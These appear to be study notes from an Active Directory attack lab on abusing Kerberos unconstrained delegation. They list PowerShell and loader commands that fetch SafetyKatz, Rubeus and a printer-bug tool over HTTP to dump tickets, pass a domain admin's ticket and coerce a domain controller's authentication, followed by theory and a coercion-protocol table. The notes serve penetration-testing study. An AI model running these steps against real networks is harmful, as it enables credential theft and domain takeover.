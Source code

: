 ### Abusing Unconstrained Delegation
Discover computers with unconstrained delegation (PowerView + AD module)
```powershell
Get-DomainComputer -UnConstrained

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

Wait for a domain admin to connect to a service on `appsrv` then dump all of the tickets
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::tickets /export 
```

Reuse the DA token with SafetyKatz
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

### Unconstrained Delegation Coercion
Coarse/Force machine accounts to connect to a machine and capture their TGT

Use Rubeus on App server (`dcorp-appsrv`) to capture TGT of DC machine account
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /interval:5 /nowrap
```

Abuse printer bug to force the DC to connect to the App server
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/MS-RPRN.exe -args \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```


### Theory
Kerberos Delegation allows to "reuse the end-user credentials to access
resources hosted on a different server".

Lets say there is a user that wants accesses the `Second Hop database` server through the `First Hop web server`. How will the `Second Hop database server` know which user is accessing it for authorisation? This can be done by the `First Hop web sever` impersonating/re-using the end-users credentials to access the `Second Hop database server`... EASY!

User impersonation is the goal of delegation
![[Pasted image 20250514195150.png]]

There are two types of Kerberos Delegation:
- General/Basic or `Unconstrained Delegation` - Allows the first hop(web server in our example) to request access to any service on any computer in the domain
- `Constrained Delegation` - Allows the first hop to request access only to specified services on specified computers. If Kerberos authentication is not used to authenticate to the first hop, Protocol Transition is used to transition the request to Kerberos

##### Unconstrained Delegation
Allows delegation to any service to any resource on the domain as a
user.

When unconstrained delegation is enabled, the DC places user's TGT
inside TGS. On the first hop, the TGT is extracted from TGS and stored in
LSASS. This way the server can reuse the user's TGT to access any other
resource as the user

![[Pasted image 20250514201409.png]]

###  Theory Unconstrained Delegation Coercion
Certain Microsoft services and protocols allow any authenticated user to
force a machine to connect to a second machine

As of January 2025, following protocols and services can be used for
coercion

| Protocol                     | Service        | Default on Server IS      | Ports Required |
| ---------------------------- | -------------- | ------------------------- | -------------- |
| MS-RPRN                      | Print Spooler  | Yes                       | 445 (SMB)      |
| MS-WSP                       | Windows Search | No (Default on Client OS) | 445 (SMB)      |
| MS-DFSNM (MDI detects this)) | Windows Search | No                        | 445 (SMB)      |
We can force the dcorp-dcto connect to dcorp-appsrvby abusing the Printer bug (MS-RPRN) or if enabled, other services

![[Pasted image 20250514202802.png]]